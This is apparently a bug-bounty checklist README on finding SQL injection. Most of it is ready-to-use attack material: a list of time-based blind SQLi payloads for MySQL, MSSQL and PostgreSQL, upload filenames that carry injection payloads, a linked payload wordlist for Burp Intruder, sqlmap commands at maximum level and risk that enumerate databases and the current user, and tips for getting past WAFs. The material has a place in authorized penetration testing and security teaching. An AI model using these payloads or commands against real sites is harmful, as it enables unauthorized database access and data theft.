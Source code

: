 ## How to find SQL injectiosn vulnerability?

## 1) Logical Operation
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter'` or `?username=Peter+'1'='1` then, you found a SQL injection.

## 2) Time Based SQL Injection
Most relative place for inject SQL payloads as [POST Request] are in Login page (username parameter), Forget password page (username parameter), Singup Page (firstname and last name) 


Payloads:
```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
' WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)

### How To Test?

 1) Use this [wordlist](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt) with intruder and inject all payloads in relative parameters and headers(User-Agent, Cookies, Referer, x-requested-with and ...)  
 2) After you got DELAY, save request in txt file and use sqlmap for confirm and exploit vulnerability

```
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```

Sometimes you cant exploits because most modern web apps use WAF & user input validation before execute it so you can try with:
- change request form POST to GET or in reverse
- Use `--random-agent`


## 3) File Uploaders SQLi
Save file with this names and upload it in site
```
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
pic.png;waitfor delay '0:0:5'-- 
```

php

(select(0)from(select(sleep(6)))v)/*'+(select(0)from(select(sleep(6)))v)+'"+(select(0)from(select(sleep(6)))v)+"*/

aspx

orwa';%20waitfor%20delay%20'0:0:6'%20--%20

graphql
orwa') OR 11=(SELECT 11 FROM PG_SLEEP(6))--

Refrence:

https://twitter.com/GodfatherOrwa
